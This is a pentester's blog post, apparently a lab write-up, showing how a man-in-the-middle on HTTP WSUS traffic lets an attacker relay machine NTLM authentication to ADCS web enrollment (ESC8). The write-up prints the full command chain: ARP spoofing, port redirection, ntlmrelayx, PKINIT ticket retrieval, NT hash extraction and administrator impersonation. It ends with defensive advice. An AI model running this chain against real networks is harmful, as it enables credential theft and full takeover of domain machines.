



# Abusing WSUS with MITM to perform ADCS ESC8 attack

In this blog post we will try to demonstrate another way (**not new**) to escalate privileges on a machine/computer by abusing WSUS server misconfiguration.

Since 2020 after [Gosecure](https://www.gosecure.net/) ethical hackers released [misconfigured WSUS deploy exploit tool](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/) pywsus, WSUS configurations are under increasing scrutiny during penetration tests in order to compromise client update machines.
Then came Gosecure's [paper](https://www.gosecure.net/blog/2021/11/22/gosecure-investigates-abusing-windows-server-update-services-wsus-to-enable-ntlm-relaying-attacks/) about abusing Windows Server Update Services (WSUS) to enable NTLM Relaying Attacks. 

While reading that last great blog post, I noticed that it was left to the reader to provide a proof-of-concept of how to exploit a vulnerable WSUS server configuration in an Active Directory Certificate Service (ADCS) context to obtain NT AUTHORITY/System privileges on domain joined machine. There is the goal of this blog post! 

Before diving into the subject, let's briefly talk about WSUS and the ADCS vulnerability we want to combine with.

## WSUS 101

### WSUS overview

**Windows Server Update Services** (WSUS) allows information technology administrators to deploy the latest Microsoft product updates on computers. WSUS can be used to fully manage the distribution of updates that are released through Microsoft Update to computers on the network, according to [MS](https://learn.microsoft.com/en-us/windows-server/administration/windows-server-update-services/get-started/windows-server-update-services-wsus/). WSUS server downloads updates from Microsoft servers and keeps them locally in order to provide it to domain computers and servers. 

A Group Policy Object is pushed and applied to a group of domain computers that use WSUS server for their updates.
On each of these computers, the **W**indows **U**pdate **A**uto **U**pdate **Cl**lien**t** binary - wuauclt.exe was used to look frequently for updates by contacting the WSUS server. That binary is now [deprecated](https://learn.microsoft.com/en-us/windows-server/get-started/removed-deprecated-features-windows-server-2016).

We can search and install updates by using [windows settings](https://support.microsoft.com/en-us/windows/update-windows-3c5ae7fc-9fb6-9af1-1984-b5e0412c556a). From there, client computer communicates with WSUS server using HTTP(S) /SOAP XML web services. Which means all update procedure is done using web service.  A full explanation from offensive perspective can be found [here](https://www.blackhat.com/docs/us-15/materials/us-15-Stone-WSUSpect-Compromising-Windows-Enterprise-Via-Windows-Update.pdf). The main endpoints requested (POST) by update clients are /ClientWebService/SimpleAuth.asmx, /ClientWebService/Client.asmx, /ApiRemoting30/WebServices.asmx and interesting requests included in XML datas are :

- SyncUpdates : sending a list of currently updates.

- GetExtendedUpdateInfo: checks for new update ids.

  While responding to GetExtendedUpdateInfo request, WSUS server sends metadata, handlers (for instance CommandLineInstallation allows to execute Microsoft signed binary provided by WSUS server with specific arguments on hosts), URLs from where to download and even installation note for every new update.
  
### Use of Powershell to find updates

It is possible for domain servers and computers  to look for updates with the help of Powershell and MicrosoftUpdate .NET API. That time, /ApiRemoting30/WebServices.asmx endpoint is requested and updates are installed using WSUS Powershell modules.

## WSUS Attack

When deploying WSUS on a domain, enabling SSL is recommended not mandatory wich unfortunately leads to unsecure configurations of WSUS that we met during penetration tests. Initially , the idea behind WSUS attack is that if we are able to perform MITM attack , we can claim to be WSUS server in eyes of domain computer looking for updates, then inject fake updates to execute commands on the computer as NT AUTHORITY\\System abusing **CommandLineInstallation** handler. That is how pyWSUS tool came out.

Another way to exploit WSUS misconfiguration is to take advantage of the authentication provided by computer client looking for updates and relaying it to other domain services, in our case: **Active Directory Certificate Service Web enrollment endpoint**.

## ADCS 101

### Public Key Infrastructure

A PKI (Public Key Infrastructure) is an infrastructure used to create, manage, and revoke certificates as well as public/private keys.


Active Directory Certificate Service (ADCS) is the Microsoft implementation of a PKI infrastructure in an Active Directory/Windows environment. There is a short list of usages of a PKI infrastructure:

- TLS certificate (HTTPS / LDAPS / RDP)

- Signing binaries, Powershell scripts or even drivers

- User authentication

- File system encryption

### Certificate template

In order to make simple the creation of certificates in an Active Directory, there are certificate templates.

By default, as well explained in [Sant0rryu blog post](https://sant0rryu.github.io/posts/CertPotato/#public-key-infrastructure) , when ADCS is installed, different default templates are available. Two of them are the **User** and **Machine** templates which can be requested by any user and machine/computer accounts in the domain. We are particularly interested by these two templates. First let's talk about machine template.

Initially, all client's updates are installed by LocalSytem NT Authority\\System account which is a built-in service account. In Active Directory environment, localSystem uses computer account when trying to connect to remote server on the domain. So basically while looking for updates, windows clients may use computer account if authentification is needed in Active Directory environment. 

### Account authentification (PKINIT)

PKINIT is a asymmetric preauthentication mechanism for Kerberos which uses X.509 certificates to authenticate the KDC to clients and vice versa. The only changes compared with conventional authentication password and symmetrical keys concern the KRB_AS_REQ and KRB_AS_REP exchanges. Indeed client signs the timestamp with its private key associated with a valid certificate. Only fews certificates' EKUs allow clients to use certificate for PKINIT authentication (EKU **client authentication** for instance).

## Practical situation
Let's imagine we are in the fantastic world of Jujutsu Kaisen ;) and we somehow have a domain corresponding to it. Let's consider the following setup:

- DC-CURSE (192.168.56.105): domain controller (Windows Server 2019), which hosts Certificate Authority Service too. The CA name is jjk-CURSE-CA.
- WSUS (192.168.56.114): Windows Service Update Server (Windows Server 2019), which hosts WSUS and delivers updates to computers through **HTTP** IIS server. 
- CURSE-COMP (192.168.56.108): Windows 11 client machine which is looking for updates.
- Parrot-OS (192.168.56.115) which is our attacker machine. 

## Exploitation Prerequisites

In order to take advantage of the situation, let's have a look on the prerequisites:


- First, it is important to be able to intercept traffic, of both windows update client and WSUS server. In other words we are able to perform ARP-spoof attack, which means we are on the same network as both.
- WSUS server configured to work with HTTP. WSUS server protocole configuration can be found by querying registry key:

```powershell
PS > reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate
    WUServer    REG_SZ    http://wsus.jjk.local:8530/
```

It is also possible to sniff traffic using Wireshark in order to find main endpoints requested by client as mentioned above. 


- ADCS HTTP-based enrollment method is enabled on the domain with HTTP enabled and EPA (Extended Protection for Authentication) disabled. In other words, ADCS vulnerable to ESC8.


## Taking advantage of the situation

We know WSUS HTTP server uses 8530 TCP port to answer clients requests. We will intercept Windows Update traffic by using ARP-Spoof attack (we could use mitm6 or responder etc). 
There are commands used to intercept traffic between both client (192.168.56.108) and server (192.168.56.114) in two linux terminals.

In one terminal:
```bash
~ sudo arpspoof -i enp0s3 -t 192.168.56.108 192.168.56.114 
```
In another terminal:

```bash
~ sudo arpspoof -i enp0s3 -t 192.168.56.114 192.168.56.108 
```
If we are MITM-ing between Windows update server and client computer, that means we potentially will receive HTTP requests on port 8530. As we wan to relay it using impacket tool [Ntlmrelayx](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py), we have to make a port redirection. We redirect all incoming traffic on port 8530 to port 80 as if we were listening on port 80, we would receive these requests. We have the choice for tools we may use. Either we use IpTables or we use [socat](https://www.baeldung.com/linux/socat-command) for that purpose:

- Use of Iptables:

```bash
~ sudo iptables -t nat -A PREROUTING -p tcp --dport 8530 -j REDIRECT --to-ports 80
```

- Use of socat 

```bash
~ sudo apt install socat
~ sudo socat TCP-LISTEN:8530,fork TCP:80
```
So we are ready to relay all incoming traffing to our HTTP 80 port to the ADCS web enrollment HTTP server. There comes the use of ntlmrelayx to perform the relay. 

>[!IMPORTANT]
>Make sure to use ExtAndroidDev pull [request](https://github.com/fortra/impacket/pull/1101/commits/81afc66904068e33c866bc9d005262c9ce69bad6) or [Dirkjann's httpattack.py version](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/ntlmrelayx/attacks/httpattack.py) . As Dirk-jan explained it in his [blog post](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)  servers/computers are not supposed to request certificates so the Web enrollment page gives them back the error ''No certificate templates could be found. You do not have permission to request a certificate from this CA, or an error occurred while accessing the Active Directory.'' There is how we proceeded in our lab to make the relay work:

```bash
python3 -m venv env
source env/bin/activate
git clone https://github.com/SecureAuthCorp/impacket ./impacket
cd impacket
git fetch origin pull/1101/head:ntlmrelayx-adcs-attack
git checkout ntlmrelayx-adcs-attack
python3 setup.py install
cd examples
python3 ntlmrelayx.py -t http://192.168.56.105/certsrv/certfnsh.asp -smb2support --adcs
```
We can wait for a windows update client to request wsus server, or if we have access to compromised host, we search for updates. Here is CURSE-COMP victime computer looking for updates:




Indeed we have incomming requests that we are going to relay to jjk-CURSE-CA web enrollment in order to ask for a template using computer template. There it is:




Let's have a look on what happened with Wireshark:


- CURSE-COMP computer (192.168.56.108) sends us request for update to our Web server (remember that we transfert all incoming traffic on port 8530 to port 80). CURSE-COMP asks for an update to us as we are acting as WSUS server at 192.168.56.114). We send him back a HTTP 401 error code..
- We (Parrot-OS at 192.168.56.115) request a certificate to jjk-CURSE-CA (192.168.56.105) using web enrollment, and it sends back a HTTP 401 error. 
- jjk-CURSE-CA asks us to authenticate with NTLM. We send the same response to CURSE-COMP.
- CURSE-COMP authenticates to us with NTLM, we relay it to jjk-CURSE-CA to request a **machine** certificate.
- We got the 200 HTTP response from jjk-CURSE-CA then we query and download the certificate for CURSE-COMP$ computer account. 


Since we got the certificate let's authenticate with PKINIT to the domain. We use then [PKINITools](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/) kit's gettgtpkinit.py to obtain our TGT:


```bash
~ python3 /opt/PKINITtools/gettgtpkinit.py -pfx-base64 \$(cat a.b64) 'jjk.local/CURSE-COMP$' 'curse-comp.ccache' -dc-ip 192.168.56.105
```


Once we got the TGT, we load it in memory with KRB5CCNAME export command. The klist command allows to list the loaded Kerberos tickets, we see that we have obtained a TGT as CURSE-COMP$, the machine account we ask certificate for.

```bash
~ export KRB5CCNAME=curse-comp.ccache
~ klist
```


As we authenticated with PKINIT, client account NT hash is encrypted in the PAC (Privilege Attribute Certificate). In order to read the PAC and have access to client's NT hash, the client must use another Kerberos extension called user to user (U2U). User to User is well explained in [Dirk-jan's blog post](https://datatracker.ietf.org/doc/html/draft-ietf-cat-user2user-02). The idea here is to request a service ticket to ourself while adding our TGT as "additional tickets" during the KRB_TGS_REQ. We will be able to find out the PAC and the NT hash when we receive KDC response as it uses the session key of our TGT (that we know) to encrypt the PAC.
We use this session key (from our TGT) to decrypt PAC and the NT hash. 

```bash
~ python3 /opt/PKINITtools/getnthash.py jjk.local/CURSE-COMP\$ -key f00b6e57ffaf6f23002b39d72ed6f34e0bfa9824db4fe8ccbe28f82b4c96119b
```


We then have CURSE-COMP$ account NT hash, let's verify it with our new favorite network pentest tool [netexec](https://www.netexec.wiki/).
```bash
~ nxc smb 192.168.56.105 -u  CURSE-COMP\$ -H "8a03b8e0fb9728ee5d6dd1eb356a5270"
```


As we have CURSE-COMP$ NT hash, we can perform [silver ticket](https://en.hackndo.com/kerberos-silver-golden-tickets/?_gl=1*1xbhafq*_ga*MTQ1MTUwNzkwOS4xNjk1MDIyMzU5*_ga_DNP6NC70FV*MTY5OTMwOTI1OS4yLjAuMTY5OTMwOTI1OS4wLjAuMA..#silver-ticket) attack and impersonate domain administrator (RID 500) user on the machine. Usually to perform S4U attacks, we use impacket. To proceed, we have to find domain SID followed by asking a domain administrator ticket to the computer account we compromised. Recently netexec added [new features](https://www.netexec.wiki/news/v1.1.0-nxc4u) giving us a huge shortcut to perform this attack!

 ```bash  
~ nxc smb CURSE-COMP.jjk.local -u 'CURSE-COMP$' -H '8a03b8e0fb9728ee5d6dd1eb356a5270' --delegate administrateur --self 
 ```


There it is!! From now we can do whatever post-exploitation action we want on the host like dumping credentials, having administration access and so one.

## Another way to take advantage of the situation
### Windows Server Update Services 3.0 Class Library
In order to give administrators full control over the update management process and eliminate at the same time the need for client computers to retrieve updates directly from Microsoft Update interface, Microsoft created [**WSUS 3.0 API**](https://learn.microsoft.com/fr-fr/previous-versions/windows/desktop/ms744624(v=vs.85)). System administrators can use the WSUS API to determine which updates apply to a computer or group of computers, download those updates, and install it with little or no user intervention. Microsoft leverages that in order to use WSUS 3.0 API, we have to be member of the WSUS Reporters group or the WSUS Administrators group, which means at some point user communicating with WSUS API has somehow it's identity verified by it, or he has to authenticate to WSUS server while using the WSUS API class.
The WSUS 3.0 API is already available on servers that include WSUS installation and clients that have WSUS client installed. That API is meant to be used with WSUS 3.0 server.

Communication between client and WSUS 3.0 API server is done using [Microsoft.UpdateServices.Administration Namespace](https://learn.microsoft.com/fr-fr/previous-versions/windows/desktop/ms748969(v=vs.85)#interfaces). To use the WSUS API, we need to reference the Update Services Administration assembly, Microsoft.UpdateServices.Administration.dll. From there, different AdminProxy methods can be called in requests. And finally the main endpoint we are sending data during our requests to API server is **/ApiRemoting30/WebServices.asmx**.

I noticed during many network penetration tests that powershell scripts using **PSWindowsUpdate** (which is based onMicrosoft.UpdateServices class) module on some servers are run by system administrators to search for updates from WSUS 3.0 server. Of course the WSUS server is running on HTTP. As these modules  are used in user (domain user or service accound logged on) context, if needed they will use the user/service account credentials to authentificate. In other words, if NTLM authentication is needed they will carry that NTLM authentication with credentials.
There is an example of script I met:

```powershell
    ...
    cut
    ...
    
    Process {
        If (-NOT $PSBoundParameters.ContainsKey('WSUSServer')) {
            #Attempt to pull WSUS server name from registry key to use            
            If ((Get-ItemProperty -Path HKLM:\Software\Policies\Microsoft\Windows\WindowsUpdate -Name WUServer).WUServer -match '(?<Protocol>^http(s)?)(?:://)(?<Computername>(?:(?:\w+(?:\.)?)+))(?::)?(?<Port>.*)') {
                $WsusServer = $Matches.Computername
                $Port = $Matches.Port
            }
        }
        #Make connection to WSUS server  
        Try {
            Write-Verbose "Connecting to $($WsusServer) <$($Port)>"
            $Script:Wsus = [Microsoft.UpdateServices.Administration.AdminProxy]::GetUpdateServer($wsusserver,$Secure,$port)  
            $Script:_wsusconfig = $Wsus.GetConfiguration()
            Write-Output $Wsus  
        } Catch {
            Write-Warning "Unable to connect to $($wsusserver)!`n$($error[0])"
        } Finally {
            $ErrorActionPreference = 'Continue' 
        } 
```

Let's go back to our lab, with this time a privileged user (**Satoru Gojo**) which logs in to CURSE-COMP with interractive shell tool. Gojo uses a script which connects to WSUS server through **Windows Server Update Services Class Library** to look for updates:


Even if there is a 404 error we see that an attempt to connect to WSUS server was made. We were listening on the wire at the same time with ntlmrelayx; we can see that the certificate request is made but with the domain user account GOJO and of course the certifate request failed as the template used is incorrect:


When we retry to relay using the correct template "user" we request and obtain user certificate:




Depending on the user privileges in the domain that attack may be interesting to consider, especially when there is a privileged user/service account that runs this command.

# Conclusion

In this blog post we didn't bring any new concept of attack, we tried to find another way to abuse WSUS misconfiguration in Active Directory environment. WSUS and ADCS can lead to a domain computer compromise when they are both misconigured and when MITM is possible by any ways.
WSUS should be configured over HTTPS in one hand, and ADCS web enrollment should be configured with EPA.
Defender can take advantage of Windows events logs (for instance event 4768 for PKINIT authentication) when investigating some suspicious behavior from computer accounts. Some events id like 4768 related to PKINIT authentication.

# Acknowledgements and references

- [Gosecure](https://www.gosecure.net/blog/) for their incredible works and finding on the subject. They gave me the motivation to dig the subject with all their [blog posts](https://www.gosecure.net/blog/2021/11/22/gosecure-investigates-abusing-windows-server-update-services-wsus-to-enable-ntlm-relaying-attacks/)
- [Paul Stone - Alex Chapman](https://www.blackhat.com/docs/us-15/materials/us-15-Stone-WSUSpect-Compromising-Windows-Enterprise-Via-Windows-Update.pdf) for a clear explanation on how does clients updates and WSUS server communicate
- [Hocine](https://twitter.com/Sant0rryu) for his brilliant blogpost about [Certpotatoe attack](https://sant0rryu.github.io/posts/CertPotato/)
- Juan Pablo Barriga for his advices, suggestions and help
- [Thomas](https://twitter.com/_zblurx) and friends for the [netexec](https://www.netexec.wiki/)
- [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) for the [Certified Pre-Owned](https://www.specterops.ioassets/resources/Certified_Pre-Owned.pdf) article
- [Dirk-jan](https://twitter.com/_dirkjan) for the [PKINITtools](https://github.com/dirkjanm/PKINITtools)
- [Elad Shamir](https://twitter.com/elad_shamir) for the article [Shadow Credentials: Abusing Key Trust Account Mapping for Account Takeover](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
- [Hacker recipes](https://www.thehacker.recipes/)
- [HackNDo](https://en.hackndo.com/)
- [Microsoft - Configure WSUS](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/hh852346(v=ws.11)?redirectedfrom=MSDN)
- [Microsoft - WSUS API 3.0 Library Class](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/ee840110(v=vs.85)).
